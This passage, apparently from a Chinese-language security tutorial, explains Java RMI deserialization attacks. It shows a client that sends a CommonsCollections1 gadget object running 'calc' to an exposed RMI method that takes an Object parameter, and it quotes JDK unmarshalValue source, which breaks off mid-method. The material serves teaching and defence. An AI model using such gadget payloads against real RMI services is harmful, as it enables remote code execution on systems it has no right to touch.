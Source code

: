 ```
import RmiServer.Hello;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Client `{`
    public static void main(String[] args) throws Exception `{`
        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1234);
        Hello hello = ( Hello ) registry.lookup("Hello");
        hello.afanti("this is RMI SPEAKING");
    `}`
`}`
```

如果正常客户端调用afanti方法，运行就是如下结果：

[![](https://p2.ssl.qhimg.com/t019b47de0377a94692.png)](https://p2.ssl.qhimg.com/t019b47de0377a94692.png)

改一下客户端代码，在afanti2注入gadget有什么效果呢？

```
import RmiServer.Hello;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Client `{`
    public static void main(String[] args) throws Exception `{`
        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1234);
        Hello hello = (Hello)registry.lookup("Hello");
        CommonsCollections1 cc1 = new CommonsCollections1();
        hello.afanti2(cc1.getObject("calc"));
        hello.afanti("this is RMI SPEAKING");
    `}`
`}`
```

效果就是这样，

[![](https://p5.ssl.qhimg.com/dm/1024_507_/t018d4c792384fce1b2.png)](https://p5.ssl.qhimg.com/dm/1024_507_/t018d4c792384fce1b2.png)

上面的第一种攻击方式也就是0c0c0f师傅说的：如果暴露的函数有对象类型参数，那么直接就可以利用，为什么能攻击成功呢？因为rmi是基于100%反序列化的。

rmi在反序列化时，会调用unmarshalValue方法判断类型参数，如果是非Object类型参数，那是打不成功的。

```
protected static Object unmarshalValue(Class&lt;?&gt; type, ObjectInput in)
        throws IOException, ClassNotFoundException
    `{`
        if (type.isPrimitive()) `{`
            if (type == int.class) `{`
                return Integer.valueOf(in.readInt());
            `}` else if (type == boolean.class) `{`
                return Boolean.valueOf(in.readBoolean());
            `}` else if (type == byte.class) `{`
                return Byte.valueOf(in.readByte());
            `}` else if (type == char.class) `{`
                return Character.valueOf(in.readChar());
            `}` else if (type == short.class) `{`
                return Short.valueOf(in.readShort());
            `}` else if (type == long.class) `{`
                return Long.valueOf(in.readLong());
            `}` else if (type == float.class) `{`
                return Float.valueOf(in.readFloat());
            `}` else if (type == double.class) `{`
                return Double.valueOf(in.readDouble());
            `}` else `{`
                throw new Error("Unrecognized primitive type: " + type);
```